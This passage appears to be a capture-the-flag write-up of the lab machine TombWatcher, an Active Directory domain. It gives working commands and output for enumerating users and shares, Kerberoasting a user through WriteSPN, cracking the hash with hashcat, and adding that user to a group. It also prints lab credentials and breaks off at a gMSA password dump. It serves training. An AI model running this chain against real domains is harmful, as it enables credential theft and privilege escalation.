        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://tombwatcher.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Header           : Host: FUZZ.tombwatcher.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 32
________________________________________________

:: Progress: [87664/87664] :: Job [1/1] :: 749 req/sec :: Duration: [0:00:58] :: Errors: 0 ::

```

# SMB

Now since we have a valid credentials let's check presence of hidden samba shares?

```
└─# netexec smb dc01.tombwatcher.htb -u Henry -p 'H3nry_987TGV!' --shares
SMB         10.10.11.72     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.72     445    DC01             [+] tombwatcher.htb\Henry:H3nry_987TGV! 
SMB         10.10.11.72     445    DC01             [*] Enumerated shares
SMB         10.10.11.72     445    DC01             Share           Permissions     Remark
SMB         10.10.11.72     445    DC01             -----           -----------     ------
SMB         10.10.11.72     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.72     445    DC01             C$                              Default share
SMB         10.10.11.72     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.72     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.72     445    DC01             SYSVOL          READ            Logon server share 

```

OK nothing out of ordinary so let's check how it looks like the default domain policy, seeing this I see no account lockout threshold which means we can password spray without worring to lock out any user.

```
└─# netexec smb dc01.tombwatcher.htb -u Henry -p 'H3nry_987TGV!' --pass-pol
SMB         10.10.11.72     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.72     445    DC01             [+] tombwatcher.htb\Henry:H3nry_987TGV! 
SMB         10.10.11.72     445    DC01             [+] Dumping password info for domain: TOMBWATCHER
SMB         10.10.11.72     445    DC01             Minimum password length: 1
SMB         10.10.11.72     445    DC01             Password history length: 24
SMB         10.10.11.72     445    DC01             Maximum password age: Not Set
SMB         10.10.11.72     445    DC01             
SMB         10.10.11.72     445    DC01             Password Complexity Flags: 000000
SMB         10.10.11.72     445    DC01                 Domain Refuse Password Change: 0
SMB         10.10.11.72     445    DC01                 Domain Password Store Cleartext: 0
SMB         10.10.11.72     445    DC01                 Domain Password Lockout Admins: 0
SMB         10.10.11.72     445    DC01                 Domain Password No Clear Change: 0
SMB         10.10.11.72     445    DC01                 Domain Password No Anon Change: 0
SMB         10.10.11.72     445    DC01                 Domain Password Complex: 0
SMB         10.10.11.72     445    DC01             
SMB         10.10.11.72     445    DC01             Minimum password age: None
SMB         10.10.11.72     445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.10.11.72     445    DC01             Locked Account Duration: 30 minutes 
SMB         10.10.11.72     445    DC01             Account Lockout Threshold: None
SMB         10.10.11.72     445    DC01             Forced Log off Time: Not Set

```

I will dump the user list and save it for later use... Ah what a boring small domain!

```
└─# netexec smb dc01.tombwatcher.htb -u Henry -p 'H3nry_987TGV!' --users
SMB         10.10.11.72     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.72     445    DC01             [+] tombwatcher.htb\Henry:H3nry_987TGV! 
SMB         10.10.11.72     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.10.11.72     445    DC01             Administrator                 2025-04-25 14:56:03 0       Built-in account for administering the computer/domain 
SMB         10.10.11.72     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.10.11.72     445    DC01             krbtgt                        2024-11-16 00:02:28 0       Key Distribution Center Service Account 
SMB         10.10.11.72     445    DC01             Henry                         2025-05-12 15:17:03 0        
SMB         10.10.11.72     445    DC01             Alfred                        2025-05-12 15:17:03 0        
SMB         10.10.11.72     445    DC01             sam                           2025-05-12 15:17:03 0        
SMB         10.10.11.72     445    DC01             john                          2025-05-19 13:25:10 0        
SMB         10.10.11.72     445    DC01             [*] Enumerated 7 local users: TOMBWATCHER

```

And since I am here I checked also traces of Kerberoastable/AS-REProastable accounts without any success.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Tombwatcher]
└─# netexec ldap dc01.tombwatcher.htb -u Henry -p 'H3nry_987TGV!' --asreproast asreproast.hash
LDAP        10.10.11.72     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.10.11.72     389    DC01             [+] tombwatcher.htb\Henry:H3nry_987TGV! 
LDAP        10.10.11.72     389    DC01             No entries found!
                                                                                                                                                                                                                                               
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Tombwatcher]
└─# netexec ldap dc01.tombwatcher.htb -u Henry -p 'H3nry_987TGV!' --kerberoast kerberoast.hash 
LDAP        10.10.11.72     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.10.11.72     389    DC01             [+] tombwatcher.htb\Henry:H3nry_987TGV! 
LDAP        10.10.11.72     389    DC01             [*] Skipping disabled account: krbtgt
LDAP        10.10.11.72     389    DC01             [*] Total of records returned 0

```

# AD

Now since nothing interesting came out of out user I will try to take a screenshot of the actual AD schema via Rusthound-CE and analyze it in Bloodhound-CE.

```
└─# rusthound-ce --domain tombwatcher.htb -u 'Henry' -p 'H3nry_987TGV!' -c All --zip
---------------------------------------------------
Initializing RustHound-CE at 21:48:10 on 06/07/25
Powered by @g0h4n_0
Special thanks to NH-RED-TEAM
---------------------------------------------------

[2025-06-07T19:48:10Z INFO  rusthound_ce] Verbosity level: Info
[2025-06-07T19:48:10Z INFO  rusthound_ce] Collection method: All
[2025-06-07T19:48:10Z INFO  rusthound_ce::ldap] Connected to TOMBWATCHER.HTB Active Directory!
[2025-06-07T19:48:10Z INFO  rusthound_ce::ldap] Starting data collection...
[2025-06-07T19:48:10Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-07T19:48:10Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=tombwatcher,DC=htb
[2025-06-07T19:48:10Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-07T19:48:11Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Configuration,DC=tombwatcher,DC=htb
[2025-06-07T19:48:11Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-07T19:48:12Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Schema,CN=Configuration,DC=tombwatcher,DC=htb
[2025-06-07T19:48:12Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-07T19:48:12Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=DomainDnsZones,DC=tombwatcher,DC=htb
[2025-06-07T19:48:12Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2025-06-07T19:48:12Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=ForestDnsZones,DC=tombwatcher,DC=htb
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::parser] Starting the LDAP objects parsing...
[2025-06-07T19:48:12Z INFO  rusthound_ce::objects::domain] MachineAccountQuota: 10
⢀ Parsing LDAP objects: 2%                                                                                             [2025-06-07T19:48:12Z INFO  rusthound_ce::objects::enterpriseca] Found 11 enabled certificate templates
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::parser] Parsing LDAP objects finished!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::checker] Starting checker to replace some values...
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::checker] Checking and replacing some values finished!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 9 users parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 61 groups parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 2 ous parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 3 domains parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 2 gpos parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 74 containers parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 1 ntauthstores parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 1 aiacas parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 1 rootcas parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 1 enterprisecas parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 33 certtemplates parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] 3 issuancepolicies parsed!
[2025-06-07T19:48:12Z INFO  rusthound_ce::json::maker::common] .//20250607214812_tombwatcher-htb_rusthound-ce.zip created!


```

And I see immediately that we have write-SPN permissions over Alfred, which makes me wonder if this attack is abous a ghost spn hijack?  


And Alfred can join himself to the Intrastructure domain group:  


Now the chain seems stopping there, but I will use my current user(Henry) to enumerate the ADCS as well.

```
└─# certipy-ad find -u henry@tombwatcher.htb -p 'H3nry_987TGV!' -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: TOMBWATCHER.HTB.
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The DNS query name does not exist: DC01.tombwatcher.htb.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates

```

So far nothing out of ordinary.  Now let's follow what we have so far and obtain the Alfred credentials by abusing the WriteSPN and perform a Kerberoast attack.

```
└─# python3 targetedKerberoast.py --dc-ip 10.10.11.72 -d tombwatcher.htb -u Henry -p 'H3nry_987TGV!' --request-user Alfred
[*] Starting kerberoast attacks
[*] Attacking user (Alfred)
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$ee8d5d6f07900d388d9dc4e8c00b0d47$676f97c0851cd9e95c1e7aa74ef128823a1e67f22e544cafa1c5afa980ef68327725ed9c4c71f91c5e24741c2d1348a8051147a0ad47ae29b3d1073c48a40e660f67175ecb452bdaabe4481647fff5165db06f82bc5ff8afb3ccfc6fcb5c70a3844430360210e19e9304e5496b127863e87cb300bc85e4e9797c9b596dffa967f6ff2a3b99e83c320771609af602f5f1b46449fe4d28e580284fe3d59c0c59fe83d7c7ae13598266084e16715932919d94b89500e3bc91cbd509ca28b137f81c11cbd96fd6c2339d0ce0e7047dab510fba6013583a23e1f70115e5cd495a8c3dc1742824ebca96500ec9dc6d825e15cfb81065d4c05cb79485aab9e0e1747163d19c69cc0542eced58978d9b4393a2652655cd13a902d05465242000196daa9504cf9bc7cb53b2371c2a9ac04eef2f2269f087bab722102eedc1f7c497eee435a07ca36d2eddf45b4f1f20a64c882dabbfbc1cb01886bcfcb4f0676930957b30ba0f97b92a4ee8440a87476a18b1fdf9bb6da3ca5c12bbce8c13d4d322b1ec00bd17c769ebf38525affd991e7bfa99a2e181fe7eb4c79278c3db1ff86ca62ecb99c0d765a06293a07bd35c1cf816888716678798b4fad9399c9eb021625b71b604458d8df72f731cfe7a28f67b10944ad15737ef3f34d5d253052237e991d2da95004f9bc4887cc366e9cc2fa472f74582b0e0db7d9d908f609512bf60a5796613d454a04897d4cb5dd6c6e4ddfd175b09ee012f43fd4a2bedd4b6df113ce5d7a307efd82d2c14715a98a71e49f4cd25e92a33a3f9fecd0a01c92c8de4c1f087af17b343f505fe5b311668a92098a7d9cfc6cfba19d44051b770762e9057a7555ef2bc7cd9ee73ae78da055fc70a4cc5c262953f9622c2a7397ef99180095cb08080d874d92ff4d6485f9cc72fefb673b826c3d60f5c3bf1c35b45f56fcac8c8439d1ba91ad682de078b494ea2fdef09c7221c9a8122243f18d5b5194ddef58011cd8ba2f5c3d5ed4345b506e9bbba6b236de6afd25711bf00a6f58f1de1bf5775af7085aec208c6fcdcce2dd3bd84c781db00f8fabdfdda91b3bf42f23d671522c4d678c371a114670a3327a77e7a9ce7f9f286d891de3cb2ab58f7a9a6cba67b19ba1b68cf1b3b0156184c0f961ed83be93d623085e5022077e9ae37dd421b37b3dbbc7c0a81d054fdd58f17a5ec0fe36a0af075d0dae5759b8cf2086e922cfa07f946aecb7e93e29ced6e7a311792b5a9a25dff42ba86674bd0d2ff4912bcc0c3b8ec24755dd1665e38caf98d9b89a9784b4d38f297fb3535a6bc71c35683237a19775e02bde71a67e9bd878c2bbf11fc5c6a0ec3e0502a94c77b6354dd547588a975992c2aead63a775d425ac88824c136884f1bd3738e35da390e20ecba4aabbb22521fb48cb0250b25bf257e977491ca66500f8384c1a5151ff426e6472c56687756d578fb5c37728fb73f156d3c01e0e991

```

And we have his credentials...

```
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$ee8d5d6f07900d388d9dc4e8c00b0d47$676f97c0851cd9e95c1e7aa74ef128823a1e67f22e544cafa1c5afa980ef68327725ed9c4c71f91c5e24741c2d1348a8051147a0ad47ae29b3d1073c48a40e660f67175ecb452bdaabe4481647fff5165db06f82bc5ff8afb3ccfc6fcb5c70a3844430360210e19e9304e5496b127863e87cb300bc85e4e9797c9b596dffa967f6ff2a3b99e83c320771609af602f5f1b46449fe4d28e580284fe3d59c0c59fe83d7c7ae13598266084e16715932919d94b89500e3bc91cbd509ca28b137f81c11cbd96fd6c2339d0ce0e7047dab510fba6013583a23e1f70115e5cd495a8c3dc1742824ebca96500ec9dc6d825e15cfb81065d4c05cb79485aab9e0e1747163d19c69cc0542eced58978d9b4393a2652655cd13a902d05465242000196daa9504cf9bc7cb53b2371c2a9ac04eef2f2269f087bab722102eedc1f7c497eee435a07ca36d2eddf45b4f1f20a64c882dabbfbc1cb01886bcfcb4f0676930957b30ba0f97b92a4ee8440a87476a18b1fdf9bb6da3ca5c12bbce8c13d4d322b1ec00bd17c769ebf38525affd991e7bfa99a2e181fe7eb4c79278c3db1ff86ca62ecb99c0d765a06293a07bd35c1cf816888716678798b4fad9399c9eb021625b71b604458d8df72f731cfe7a28f67b10944ad15737ef3f34d5d253052237e991d2da95004f9bc4887cc366e9cc2fa472f74582b0e0db7d9d908f609512bf60a5796613d454a04897d4cb5dd6c6e4ddfd175b09ee012f43fd4a2bedd4b6df113ce5d7a307efd82d2c14715a98a71e49f4cd25e92a33a3f9fecd0a01c92c8de4c1f087af17b343f505fe5b311668a92098a7d9cfc6cfba19d44051b770762e9057a7555ef2bc7cd9ee73ae78da055fc70a4cc5c262953f9622c2a7397ef99180095cb08080d874d92ff4d6485f9cc72fefb673b826c3d60f5c3bf1c35b45f56fcac8c8439d1ba91ad682de078b494ea2fdef09c7221c9a8122243f18d5b5194ddef58011cd8ba2f5c3d5ed4345b506e9bbba6b236de6afd25711bf00a6f58f1de1bf5775af7085aec208c6fcdcce2dd3bd84c781db00f8fabdfdda91b3bf42f23d671522c4d678c371a114670a3327a77e7a9ce7f9f286d891de3cb2ab58f7a9a6cba67b19ba1b68cf1b3b0156184c0f961ed83be93d623085e5022077e9ae37dd421b37b3dbbc7c0a81d054fdd58f17a5ec0fe36a0af075d0dae5759b8cf2086e922cfa07f946aecb7e93e29ced6e7a311792b5a9a25dff42ba86674bd0d2ff4912bcc0c3b8ec24755dd1665e38caf98d9b89a9784b4d38f297fb3535a6bc71c35683237a19775e02bde71a67e9bd878c2bbf11fc5c6a0ec3e0502a94c77b6354dd547588a975992c2aead63a775d425ac88824c136884f1bd3738e35da390e20ecba4aabbb22521fb48cb0250b25bf257e977491ca66500f8384c1a5151ff426e6472c56687756d578fb5c37728fb73f156d3c01e0e991:basketball
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb...e0e991
Time.Started.....: Sun Jun  8 02:03:18 2025 (0 secs)
Time.Estimated...: Sun Jun  8 02:03:18 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 52868.8 kH/s (6.16ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 786432/14344385 (5.48%)
Rejected.........: 0/786432 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> sonis
Hardware.Mon.#1..: Temp: 57c Util: 15% Core:1890MHz Mem:7000MHz Bus:8

Started: Sun Jun  8 02:03:13 2025
Stopped: Sun Jun  8 02:03:19 2025

```

Next can we continue the chain and add outself to the Infrastructure group as well.

```
└─# powerview tombwatcher.htb/alfred:basketball@dc01.tombwatcher.htb 
Logging directory is set to /root/.powerview/logs/tombwatcher-alfred-dc01.tombwatcher.htb
[2025-06-08 02:04:56] [Storage] Using cache directory: /root/.powerview/storage/ldap_cache
(LDAPS)-[DC01.tombwatcher.htb]-[TOMBWATCHER\Alfred]
PV > Add-DomainGroupMember -Identity 'INFRASTRUCTURE' -Members 'Alfred'
[2025-06-08 02:06:30] User Alfred successfully added to INFRASTRUCTURE
(LDAPS)-[DC01.tombwatcher.htb]-[TOMBWATCHER\Alfred]
PV > Get-DomainGroupMember -Identity <pre><font color="#5AF78D">INFRASTRUCTURE</font></pre>
[2025-06-08 02:06:45] [Get-DomainGroupMember] No group found
(LDAPS)-[DC01.tombwatcher.htb]-[TOMBWATCHER\Alfred]
PV > Get-DomainGroupMember -Identity INFRASTRUCTURE                                        
GroupDomainName             : Infrastructure
GroupDistinguishedName      : CN=Infrastructure,CN=Users,DC=tombwatcher,DC=htb
MemberDomain                : tombwatcher.htb
MemberName                  : Alfred
MemberDistinguishedName     : CN=Alfred,CN=Users,DC=tombwatcher,DC=htb
MemberSID                   : S-1-5-21-1392491010-1358638721-2126982587-1104

```

Now seems like we still have no access to the WINRM not have we access to any strange samba share. If I check for strange delegations I do not see anything damn it!

```
└─# impacket-findDelegation -target-domain tombwatcher.htb -dc-ip 10.10.11.72 tombwatcher.htb/alfred:basketball
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

No entries found!

```

Now If I check the computers I see a computer named **ansible_dev**?

```
└─# netexec ldap dc01.tombwatcher.htb -u Alfred -p 'basketball' --computers
LDAP        10.10.11.72     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAP        10.10.11.72     389    DC01             [+] tombwatcher.htb\Alfred:basketball 
LDAP        10.10.11.72     389    DC01             [*] Total records returned: 2
LDAP        10.10.11.72     389    DC01             DC01$
LDAP        10.10.11.72     389    DC01             ansible_dev$

```

But wait wasn't a computer? Bloodhound sees it as a user instead?



But that user can help us get to SAM. And John user is even more interesting where he can get to the ADCS?  


Now this is the full path I need:



Right now I need to understand how can i get to ansible_dev$? Now i can see what i was missing it is a gMSA:

```
(LDAPS)-[DC01.tombwatcher.htb]-[TOMBWATCHER\Alfred]
PV > Get-DomainComputer 
cn                                : ansible_dev
distinguishedName                 : CN=ansible_dev,CN=Managed Service Accounts,DC=tombwatcher,DC=htb
instanceType                      : 4
name                              : ansible_dev
objectGUID                        : {5631a537-f78b-400b-b171-990ef3e13b47}
userAccountControl                : WORKSTATION_TRUST_ACCOUNT [4096]
badPwdCount                       : 2
badPasswordTime                   : 07/06/2025 23:59:48 (today)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 01/01/1601 00:00:00 (424 years, 5 months ago)
pwdLastSet                        : 16/11/2024 00:54:13 (6 months, 23 days ago)
primaryGroupID                    : 515
objectSid                         : S-1-5-21-1392491010-1358638721-2126982587-1108
logonCount                        : 0
sAMAccountName                    : ansible_dev$
sAMAccountType                    : SAM_MACHINE_ACCOUNT
dNSHostName                       : TOMBWATCHER.HTB
objectCategory                    : CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configuration,DC=tombwatcher,DC=htb
msDS-SupportedEncryptionTypes     : RC4-HMAC
                                    AES128
                                    AES256

```

So yeah it is pretty much this one:

```
└─# netexec ldap dc01.tombwatcher.htb -u Alfred -p 'basketball' --gmsa     
LDAP        10.10.11.72     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:tombwatcher.htb)
LDAPS       10.10.11.72     636    DC01             [+] tombwatcher.htb\Alfred:basketball 
LDAPS       10.10.11.72     636    DC01             [*] Getting GMSA Passwords
